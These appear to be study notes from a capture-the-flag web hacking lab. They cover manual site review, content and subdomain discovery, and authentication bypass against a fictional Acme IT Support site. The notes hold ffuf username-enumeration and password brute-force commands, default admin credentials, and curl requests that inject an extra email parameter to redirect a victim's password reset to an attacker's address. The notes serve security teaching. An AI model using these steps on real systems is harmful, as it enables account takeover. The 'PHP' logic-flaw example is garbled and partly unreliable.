








# 1. Introduction to Web Hacking
Understanding and exploiting common web application vulnerabilities

## Walking an application

We begin by discussing how we can manually review a web application for security issues using only tools built into the web browser. More often than not, automated tools and scripts will miss many potential vulnerabilities and useful information. 

The tools that we will look at are:
* **View Source** -- using the browser to view the human-readable source code of a website.
* **Inspector** -- inspect page elements and make changes to view usually blocked content.
* **Debugger** -- inspect and control the flow of JavaScript scripts on a webpage.
* **Network** -- inspect all network requests made by a webpage.

### Exploring the website

The role of a penetration tester when reviewing a website or web application is to discover featurs that can potentially be vulnerable and attempt to exploit them. Vulnerable features are commonly found in parts of a website that require human interaction.

The best way to start is to explore the website using the browser and noting doen the individual pages/areas/features with a summary for each one.

We are given an example: a website for "Acme IT Support". 


For this example, a site review would look something like this

| Feature | URL | Summary |
| :---: | :---: | :--- |
| Home Page | `/` | Contains a summary of what Acme IT Support does, and a company photo of their staff |
| Latest News | `/news` | Contains a list of recently published news articles by the company, and each news has an id number, i.e. `/news/article?id=1`. 
| News Article | `/news/article?id=1` | Displays the individual news article. Some articles seem to be blocked and reserved for premium customers only. |
| Contact Page | `/contact` | Contains a form for customers to contact the company. There is a name, email and message input fields, and a send button. |
| Customers | `/customers` | Redirects to `/custormers/login` |
| ... | ... | ... |

### Viewing Page Source

The page source is human-readable source code returned to our browser from the web server each time a request is made. The code consists of HyperText Markup Language (HTML), Cascading Style Sheets (CSS) and JavaScript. These tell the browser what content to display, how to show it and how users can interact with it. 

To view the page source:
1. Right-click on the page and click on "View Page Source" in the menu.
2. Some browsers support prepending the URL with `view-source:`, e.g. `view-source:https://www.google.com/`.
3. Click on "View Page Source" in the browser menu. This option may sometimes be located in submenus. 

We can use the above methods to view the source of the homepage of the Acme website.


At the top, we see some code starting with `<!--` and ending with `-->`, which is a HTML comment. Comments do not get displayed on the actual webpage. This comment tells us that the current homepage is a temporary one while a new one is under development at `/new-home-beta`. 

```html
<!--
This page is temporary while we work on the new homepage @ /new-home-beta
-->
```

Visiting the new homepage, we find a flag:
> THM{HTML_COMMENTS_ARE_DANGEROUS}

In HTML, links to other pages are enclosed in anchor tags denoted by `<a>`, and the link that we are directed to is stored in the `href` attribute. We see some examples in the Acme website.


Looking at the page source, at line 41, we see that there exists a link in the message on the homepage 

```html
<p class="welcome-msg">Our dedicated staff are ready <a href="/secret-page">to</a> assist you with your IT problems.</p>
```

Visiting the page, we find another flag:
> THM{NOT_A_SECRET_ANYMORE}

External files such as CSS, JavaScript and embedded images can be included via HTML. In the Acme website, we can see that these files are stored in the directory `/assets`.

```html
<script src="/assets/jquery.min.js"></script>
<script src="/assets/bootstrap.min.js"></script>
<script src="/assets/site.js"></script>
```

We can attempt to visit the directory, and we are able to see all the files within that directory.


Under normal circumstances, we should expect either a blank page or a `403 Forbidden` error as we should not have permission to access this page. 

Opening up `flag.txt` gives us another flag:
> THM{INVALID_DIRECTORY_PERMISSIONS}

Nowadays, websites are not made from scratch and make use of frameworks -- collections of premade code that allow developers to include common features. The page source may give us clues as to what frameworks are used, which may be important as there may be public vulnerabilities in the framework. In the Acme website, we see a comment that gives us information about the framework.

```html
<!--
Page Generated in 0.04611 Seconds using the THM Framework v1.2 ( https://static-labs.tryhackme.cloud/sites/thm-web-framework )
-->
```

Visiting the website for the THM Framework, we see that the latest version is v1.3, while the Acme website uses v1.2. The changelog also states that there is a vulnerability in v1.2 where a file `/tmp.zip` is publicly viewable. 


Downloading the zip file from the Acme website, we see that there is a file `flag.txt` contained within it. Opening `flag.txt` gives us the flag:
> THM{KEEP_YOUR_SOFTWARE_UPDATED}

### Developer Tools - Inspector

The page source does not fully represent what is shown the webpage as CSS, JavaScript and user interaction can change the content and style of the page. The element inspector allows provides us a way to view the live representation of what is currently on the website. Other than the live view, we can also use the inspector to edit and interact with page elements, which is useful for helping developers to debug issues.

On the "News" section of the Acme website, we see that the third article has been blocked with a floating notice, stating that the content is only for premium customers. This is known as a paywall.


We can inspect the paywall element on the page, and see that it belongs to the element class `premium-customer-blocker`. We can then view the styles of this element class.


Changing `display: block` to `display: none`, we can reveal the content underneath the paywall. This gives us the flag:
> THM{NOT_SO_HIDDEN}


Note that this edit is only valid in the current browser window. When the page is refreshed, everything will be back as it were.

### Developer Tools - Debugger

The debugger panel in the developer tools is intended for debugging JavaScript. This allows penetration testers to dig deep into the JavaScript code. Note that the debugger is called "Sources" in Google Chrome.

On the "Contact" page of the Acme website, notice that a red box quickly flashes by on the screen as the page is loaded. In the "assets" folder, we see that there is a file called `flash.min.js`. Clicking on the file displays its contents. We can make the file more readable using the "Pretty Print" function, by clicking the button with the braces `{}`. 

Scrolling to the end of the file, we see the line:

```javascript
flash['remove']();
```

which is what removes the red box from the page. We can click on the line number to set a breakpoint, which will pause the code before the line is executed. Refreshing the page, we see that the red box is present on the page and it contains the flag:
> THM{CATCH_ME_IF_YOU_CAN}


### Developer Tools - Network

The network panel in the developer tools keeps track of every external request a webpage makes. 

On the "Contact" page of the Acme website, if we fill up the form and click on "Send Message", we see that the network panel records a new event: the form being submitted in the background using AJAX.


Clicking on the event, we see that a request was sent to the file `/contact-msg`. Visiting the site gives us the flag:
> THM{GOT_AJAX_FLAG}


## Content Discovery

Content can be one of many things: files, videos, pictures, backups or website features. *Content discovery* is about finding content on a website that is not immediately presented to the user and not intended for public access. Examples of what we mainly look out for include pages or portals intended for staff usage, older versions of the website, configuration files, or adminstration panels. 

Here, we look at three main methods of content discovery: 
1. manual discovery,
2. automated discovery, and
3. open source intelligence (OSINT).

### Manual discovery

There are many places that we can manually check on a website to start discovering more content.

**Robots.txt**

The `robots.txt` file is a document that tells search engine crawlers the pages which they can access, and can even ban certain search engines from crawling the website altogether. It can be common practice to restrict certain website areas -- such as administration portals -- so that they are not shown in search engine results. Thus, `robots.txt` gives penetration testers a list of locations that the website owner does not want to be discovered.

We can look at the `robots.txt` on the given Acme website as an example. We see that crawlers are disallowed from accessing `/staff-portal`.


**Favicon**

The *favicon* is the small icon displayed in the browser's address bar or tab, used for branding the website.


When frameworks are used to build a website, a favicon that is part of the installation may get left over. If the developer does not replace this favicon with a custom one, then it gives us a clue of what framework is being used. OWASP hosts a [database of common framework favicons](https://wiki.owasp.org/index.php/OWASP_favicon_database) which we can refer to. Once the framework stack is known, it is easier for us to find out more about it.

**Sitemap.xml**

Unlike `robots.txt`, which restricts what search engine crawlers can look at, the `sitemap.xml` file is a list of every file the website owner wants to be listed on a search engine. These can sometimes contain areas of the website that are more difficult to navigate to, or even some old webpages that the website no longer uses but are still working behind the scenes.

Looking at `sitemap.xml` on the Acme website, we see that there is a page at `/s3cr3t-area`.


**HTTP Headers**

When we make requests to the web server, the server returns various HTTP headers. These headers can sometimes contain useful information such as the web server software and the scripting language in use. To look at these headers, we can use the `curl` command in the terminal.

```sh
~$ curl <WEB SERVER ADDRESS> -v
```

Doing so for the Acme website, we see that we have an `X-FLAG` header containing the flag:
> THM{HEADER_FLAG}


**Framework stack**

Once we have established the framework of the website, we can locateed the documentation of the framework and learn more about it. This can lead to more content being discovered. 

Taking the Acme website for example, we have seen [earlier](#viewing-page-source) that it uses the THM Web Framework v1.2. Looking at the documentation for the framework, we see that there is a page `/thm-framework-login` where the default credentials are 

```
username: admin
password: admin
```


Visiting the page, we see that it prompts us for some credentials.


Using the default credentials, we manage to access the page containing the flag:
> THM{CHANGE_DEFAULT_CREDENTIALS}


### OSINT (Content)

Freely available tools that collect information can also help in discovering information about the target website.

**Google dorking**

This method involves utilising Google's advanced search engine features that allow us to pick out custom content via filters. Some examples of filters are shown below

| Filter | Example | Description |
| :---: | :---: | :---: |
| site | site:tryhackme.com | returns results only from the specified address | 
| inurl | inurl:admin | returns results containing the specified word in the URL |
| filetype | filetype:pdf | returns results which are of a particular file extension | 
| intitle | intitle:admin | returns results containing the specified word in the title |

More information about Google dorking can be found [here](https://en.wikipedia.org/wiki/Google_hacking).

**Wappalyzer**

*[Wappalyzer](https://www.wappalyzer.com/)* is an online tool and browser extension that helps identify what technologies a website uses, such as: frameworks, Content Management Systems (CMS), payment processors and much more. 

**Wayback Machine**

*[Wayback Machine](https://archive.org/web/)* is a historical archive of websites that dates back to the late 1990s. We can search a domain name on it, and it will show us all the times the Wayback Machine service saved the contents of the webpage. This can help uncover old pages that may still be active on the current website.

**GitHub**

*[GitHub](https://www.github.com/)* is a hosted version of Git -- a version control system where code is deposited in a central location (repository) for teams to work on. On GitHub, repositories can either be set to public or private with various levels of access control. GitHub also has a search feature to look for company or website names linked to repositories. Once found, these repositories give us access to source code, passwords and other content.

**S3 Buckets**

S3 Buckets are a storage service provided by Amazon Web Services, allowing people to save files, including static website content, in the cloud accessible over HTTP(S). The owner of the files are able to set permissions. However, these permissions can sometimes be set incorrectly and allow access to files that should not be available. The format for S3 buckets is 
```
http(s)://<name>.s3.amazonaws.com
```
where `<name>` is given by the owner. 

S3 buckets can be discovered in many ways, such as simply finding the URLs in the website's page source, GitHub repositories, or even via an automated process. 

### Automated discovery

*Automated discovery* is the process of using tools to discover content, rather than doing it manually. The process is automated as it usually involves sending a large amount of requests to a webserver. These requests check whether a file or directory exists on a website. 

Wordlists -- text files containing a long list of commonly used words -- are crucial to automated discovery. Wordlists can cover many different use cases, e.g. a password wordlist would include the most commonly used passwords. In the case of content discovery, we would require a list containing commonly used directory and file names.

An excellent resource for wordlists is [Daniel Miessler's repository](https://github.com/danielmiessler/SecLists).

There are many automated tools available for content discovery, each with their own features and flaws, but the common ones are [ffuf](https://github.com/ffuf/ffuf), [dirb](http://dirb.sourceforge.net/), and [gobuster](https://github.com/OJ/gobuster).

For example, to use gobuster on the Acme website, we run the command

```sh
~$ gobuster dir --url <WEB_ADDRESS> -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```


## Subdomain Enumeration

Subdomain enumeration is the process of finding valid subdomains for a domain, in order to expand the attack surface and discover more points of vulnerability. Here, we explore three methods for subdomain enumeration: brute force, OSINT, and virtual hosts.

### OSINT (Subdomains)

**Secure Sockets Layer/Transport Layer Security (SSL/TLS) certificates**

When a SSL/TLS certificate is created for a domain by a Certificate Authority (CA), the CA takes part in "Certificate Transparency (CT) logs" -- publicly accessible logs of every SSL/TLS certificate created for the domain name. The purpose of CT logs is to prevent malicious and accidentally made certificates from being used.

CT logs can be used to a penetration tester's advantage: to help discover subdomains of a domain. Websites like [crt.sh](https://crt.sh/) and [Google's transparency report](https://transparencyreport.google.com/https/certificates) offer searchable databases of certificates with both current and historical results.

**Search Engines**

Expanding from the discussion in [Google dorking](#osint-content), we can use advanced search methods to find new subdomains. 

On Google, we can use the filter `site:*.domain.com -site:www.domain.com`. This searches for domains where `domain.com` is contained in the URL, excluding `www.domain.com` (`-` is the exclusion operator).

**Sublist3r**

To speed up the process of OSINT subdomain discovery, we can automate the above processes with tools like [Sublist3r](https://github.com/aboul3la/Sublist3r). 

### Domain Name System (DNS) bruteforce

Bruteforce DNS enumeration involves trying a large number of possible subdomains from a pre-defined list of commonly used subdomains. Tools are used to automate this process to make it quicker. One such tool is [dnsrecon](https://github.com/darkoperator/dnsrecon).

### Virtual Hosts

Some subdomains are not always hosted in publically accessible DNS results, such as development versions of a web application or administration portals. Instead, the DNS record can be kept on a private DNS server, or recorded on the developer's machine (at `/etc/hosts` on Linux, or `C:\Windows\System32\Drivers\etc\hosts` on Windows) to match domain names to IP addresses.

Because web servers can host multiple websites from one server when a website is requested from a client, the server determines which website the client wants from the `Host` header of the HTTP request. We can utilise this header by making changes to it and monitoring the response to see if we have discovered a new subdomain. 

Like with bruteforce techniques, we can automate this process using tools and a wordlist of commonly used subdomains. The tool [ffuf]() can be used to do this, using the command
```sh
~$ ffuf -w <PATH_TO_WORDLIST> -H "Host: FUZZ.domain.com" -u <WEB_SERVER_ADDRESS> 
```
The output can be further filtered using the `-fs` flag.

## Authentication bypass

In this section, we will discuss how website authentication methods can be bypassed, defeated or broken. These vulnerabilities can be critical as they will lead to user data leaks.

### Username enumeration

It is helpful to have a list of valid usernames when trying to find authentication vulnerabilities.

We can leverage on website error messages in order to create a list of valid usernames. For example, on the Acme website, if we try to create a user with the name `admin`, we get an error message saying that "An account with this username already exists".


Thus, we can produce a list of valid usernames by bruteforcing using a wordlist containing common usernames. To do this using ffuf, the command is:

```sh
~$ ffuf -w <PATH_TO_WORDLIST> -X POST -d <FORM_DATA> -H "Content-Type: application/x-www-form-urlencoded" -u <WEB_SERVER_ADDRESS> -mr <ERROR_MESSAGE>
```

### Bruteforce attack

With a list of valid usernames, we can attempt a bruteforce attack on a login page, where we automate the process of trying a list of commonly used passwords against a list of usernames. Using ffuf, the commmand is

```sh
~$ ffuf -w <PATH_TO_USERNAME_LIST>:W1,<PATH_TO_PASSWORD_LIST>:W2 -X POST -d <FORM_DATA> -H "Content-Type: application/x-www-form-urlencoded" -u <WEB_SERVER_ADDRESS> -fc 200
```

Here, we specified `W1` and `W2` as fuzzing keywords. Thus, for the form data we should set the username and password to be submitted as `W1` and `W2` respectively. To filter for positive matches, the flag `-fc` to check for HTTP status codes other than 200.

### Logic flaw

Authentication processes can sometimes contain logic flaws -- when the typical control flow of the program is either bypassed, circumvented or manipulated by a malicious actor. Logic flaws can occur in any component of a website, but here we will focus on logic flaws related to authentication processes.



As a very basic example, consider the code below.

```php
if (url.substr(0,6) === '/admin') {
    # check if user is an admin
} else {
    # show page
}
```

This PHP script checks if the webpage being requested begins with `/admin`, and if so, further checks are made to determine if the user has the required credentials. Otherwise, the webpage is shown directly to the user. The flaw here is the use of the triple equal signs (`===`), which looks for an **exact** match on the string, including letter case. Thus, if a user requests for a page beginning with `/adMin` will not have their privileges checked and have the page shown to them directly, totally bypassing any authentication process.

--- 
**A more practical example -- Acme IT Support**

Here, we will look at the "Reset Password" page of the Acme IT Support website. Visiting the page, we see a form asking for the email address associated the account on which we wish to perform a password reset. 



Using the given email address `robert@acmeitsupport.thm`, we are brought to the next form which asks for the username of the account. 



Using `robert` as the username, we are then presented with a confirmation message that a password reset email will be sent to `robert@acmeitsupport.thm`. 



It turns out that in the password reset process, the username is submitted in a `POST` field, while the email address is sent as a `GET` parameter (query string in URL).



It turns out that in the application, the user account is retrieved via the query string, but the password reset email is sent using the data found in the PHP (superglobal) variable `$_REQUEST` -- an array containing data received from the query string and `POST` data. However, the logic for the `$_REQUEST` variable favours `POST` data fields over query strings, so if we add another parameter to the `POST` form, we can control where the password reset email is sent. We try to do this using `curl`:

```sh
~$ curl 'http://<WEBSITE_ADDRESS>/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

In the response, we see that the email is indeed sent to `attacker@hacker.com`.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    ...
</head>
<body>
    ...
    <h1 class="text-center">Acme IT Support</h1>
    <h2 class="text-center">Reset Password</h2>
    <div class="row">
        <div class="col-md-4 col-md-offset-4">
            <div class="alert alert-success text-center">
                    <p>We'll send you a reset email to <strong>attacker@hacker.com</strong></p>
            </div>
        </div>
    </div>
    ...
</body>
</html>
...
```

To proceed, we create an account on the Acme IT Support website, giving us an unique email address to create support tickets.



Now, we can redirect the password reset email to our account to view its contents. We make the request using `curl`:

```sh
~$ curl 'http://<WEBSITE_ADDRESS>/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=hacker@customer.acmeitsupport.thm'
```



We can open up the ticket we obtained to look at its contents.



The link allows us to login as `robert`, and we find the flag in the account's support tickets.
> THM{AUTH_BYPASS_COMPLETE} 

